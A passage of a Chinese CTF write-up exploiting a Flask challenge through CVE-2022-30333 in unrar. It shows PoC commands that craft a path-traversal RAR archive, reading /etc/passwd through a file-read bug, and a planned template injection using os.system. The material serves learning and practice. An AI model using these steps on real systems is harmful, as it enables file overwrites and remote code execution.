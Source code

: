 ```python
        return response("Not Found.", 404)
```

读取 yaml 数据并返回结果, 读取之前有一个正则过滤 (一开始还没看出来这里为什么要过滤...)

因为是 flask 服务器, 上传 webshell 的传统思路肯定行不通

看到题目主页底下的 `EasyRar`, 想着可能从那一句 unrar 入手

```python
pStatus = subprocess.Popen(["/usr/bin/unrar", "x", "-o+", filepath, extractdir])
```

搜了一下 unrar 的漏洞, 发现有 CVE-2022-30333, 还是今年6月份爆出来的

参考文章 [https://www.ddosi.org/cve-2022-30333-poc/](https://www.ddosi.org/cve-2022-30333-poc/)

GitHub 上搜了一下 poc

[https://github.com/rbowes-r7/unrar-cve-2022-30333-poc](https://github.com/rbowes-r7/unrar-cve-2022-30333-poc)

```bash
exp10it@LAPTOP-TBAF1QQG:~/Desktop/unrar-cve-2022-30333-poc$ ruby cve-2022-30333.rb
Usage: ruby ./create-payload <../../target/file> <filename to read payload from>

Eg: $ ruby ./create-payload.rb '../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/backdoor.jsp' ./reverse-tcp-4444.jsp
exp10it@LAPTOP-TBAF1QQG:~/Desktop/unrar-cve-2022-30333-poc$ echo helloworld > test.txt
exp10it@LAPTOP-TBAF1QQG:~/Desktop/unrar-cve-2022-30333-poc$ ruby cve-2022-30333.rb "../../../../../../../../../tmp/test.txt" ./test.txt > test.rar
```

上传之后再利用之前的任意文件读取

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261641320.png)

成功读到 /tmp/test.txt, 也就说明存在这个漏洞

想了一会这个任意文件写入的漏洞, 有下面几个思路

1. 寻找 crontab 路径并写入脚本, 从而定时执行任意代码
2. 构造一个恶意的模板文件并覆写 flask templates 目录下原来的模板

第一种方法在读取文件的时候发现 /etc/crontab 并不存在

第二种方法就是构造类似 `{{ os.system('ls /') }}` 的模板, 覆盖掉原来的 index.html 或者 result.html (从源码来看只有这两个模板), 然后访问的时候加载我们自定义的模板来执行代码

但是实际测试的时候, **非 debug 模式**下的 flask 不会自动重新加载模板文件, 必须要手动重启才行

不能覆写 application.py 的原因同上

于是换了个思路, 想想该怎么利用这个文件读取

读取 /etc/passwd 的时候发现了 ctfer 用户, 试了一下 /home/ctfer 下的几个文件 `.bash_rc` `.bash_history` 等等都提示 file not found

nginx apache 这些服务器的配置文件也都没有

/proc/net/arp 里也没有信息, 应该是不存在内网?

